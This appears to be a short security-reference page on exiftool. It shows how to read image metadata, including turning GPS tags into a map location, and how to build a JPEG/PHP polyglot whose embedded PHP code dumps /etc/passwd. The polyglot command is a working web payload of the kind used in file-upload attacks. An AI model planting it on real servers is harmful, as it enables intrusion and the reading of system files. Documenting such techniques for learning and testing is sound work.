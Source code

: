 ```yaml
---
title: Exiftool
desc: Read and write meta information in files. It’s also used to create a polyglot. 
tags: [Steganography]
alts: [Binwalk, Steghide, Stegseek, Xxd, Zsteg]
website:
render_with_liquid: false
---
```


## Read Meta Information

```sh
exiftool example.jpg

# If you get the GPS Latitude/Longitude, you can get the location by searching on Google Map
# e.g. GPS Latitude: 54 deg 17' 41.27" N
# e.g. GPS Longitude: 2 deg 15' 1.33" W
# Input "54 17' 41.27" N 2 15' 1.33" W" in the search form on Google Map.
```

<br />

## Create A Polyglot

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```